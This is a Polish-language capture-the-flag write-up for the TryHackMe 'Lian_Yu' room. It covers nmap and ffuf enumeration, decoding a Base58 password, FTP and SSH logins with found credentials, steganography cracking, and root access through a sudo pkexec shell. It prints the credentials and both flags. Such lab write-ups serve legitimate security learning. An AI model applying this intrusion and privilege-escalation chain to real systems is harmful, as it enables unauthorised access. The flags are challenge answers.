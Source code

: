 # Lian_Yu
IP=10.10.150.110

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.150.110   
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-29 11:01 EDT
Nmap scan report for 10.10.150.110
Host is up (0.059s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
|_http-server-header: Apache
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40675/udp   status
|   100024  1          42048/tcp   status
|   100024  1          45620/udp6  status
|_  100024  1          58428/tcp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.33 seconds
```

Zostały wykryte cztery porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Widzimy stronę nawiązującą do serii seriali Arrowverse, przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/FUZZ -c 
```

Otrzymujemy następujące wyniki:

![Ffuf1](img/Ffuf1.JPG)

Przechodzimy do katalogu "island":

![Island](img/Island.JPG)

W źródle strony znajdujemy prawdopodobny login użytkownika:

![Islandv2](img/Islandv2.JPG)

```
vigilante
```

Kontynuujemy dalszą enumerację:

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.110/island/FUZZ -c
```

![Ffuf2](img/Ffuf2.JPG)

Przechodzimy do katalogu "2100":

![2100](img/2100.JPG)

W źródle strony znajdujemy podpowiedź, aby szukać na serwerze plików z rozszerzeniem .ticket:

![Ticket](img/Ticket.JPG)

Rozpoczynamy enumerację plików z rozszerzeniem .ticket:

![Ffuf3](img/Ffuf3.JPG)

Znajdujemy plik "green_arrow.ticket":

![Token](img/Token.JPG)

```
RTy8yhBQdscX
```

Za pomocą [CyberChef'a](https://gchq.github.io/CyberChef/) dekodujemy hasło przy użyciu Base58:

![Chef](img/Chef.JPG)

```
!#th3h00d
```

### Port 21

Logujemy się do serwisu FTP za pomocą znalezionych danych i pobieramy znajdujące się tam pliki:

```
vigilante:!#th3h00d
```

W pobranym pliku .other_user znajdujemy potencjalną nazwę użytkownika:

![Other](img/Other.JPG)

```
slade
```

Przechodzimy do analizy pobranych zdjęć. Za pomocą narzędzia StegCracker łamiemy hasło do pliku aa.jpg:

![StegCracker](img/StegCracker.JPG)

```
password
```
Wykorzystując program StegHide otrzymujemy dostęp do ukrytych informacji:

[Aa](img/Aa.JPG)

### Port 22

Plik shado zawiera potencjalne hasło. Próbujemy zalogować się do serwisu SSH przy pomocą znalezionych danych:

```
slade:M3tahuman
```

[SSH](img/SSH.JPG)

 w pliku user.txt znajdujemy pierwszą flagę:

[Flag1](img/Flag1.JPG)

```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
```

## Zwiększenie poziomu uprawnień

Za pomocą poniższej komendy sprawdzamy uprawnienia użytkownika slade:

```
sudo -l
```

[Pkexec](img/Pkexec.JPG)

Użytkownik slade może uruchomić komendę pkexec jako root. Wykorzystujemy to do uzyskania dostępu do konta root:

```
sudo pkexec /bin/sh
```

[Root](img/Root.JPG)

W pliku root.txt znajdujemy drugą flagę:

[Flag2](img/Flag2.JPG)

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```

Do zobaczenia na kolejnych CTF-ach!

